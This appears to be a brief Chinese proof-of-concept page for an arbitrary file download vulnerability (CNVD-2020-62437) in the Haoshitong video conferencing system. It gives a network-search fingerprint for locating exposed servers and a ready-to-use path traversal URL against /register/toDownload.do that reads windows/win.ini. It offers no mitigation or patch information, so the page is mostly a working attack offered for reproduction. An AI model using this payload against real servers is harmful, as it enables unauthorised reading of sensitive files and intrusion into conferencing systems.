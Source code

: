 # 

# 银澎云计算 好视通视频会议系统 任意文件下载 CNVD-2020-62437

## 漏洞描述

银澎云计算 好视通视频会议系统 存在任意文件下载，攻击者可以通过漏洞获取敏感信息

## 漏洞影响

```
银澎云计算 好视通视频会议系统
```

## 网络测绘

```
app="Hanming-Video-Conferencing"
```

## 漏洞复现

登录页面如下



![](./images/202202101930170.png)



漏洞Url为



```plain
https://xxx.xxx.xxx.xxx/register/toDownload.do?fileName=../../../../../../../../../../../../../../windows/win.ini
```



![](./images/202202101930402.png)



## 
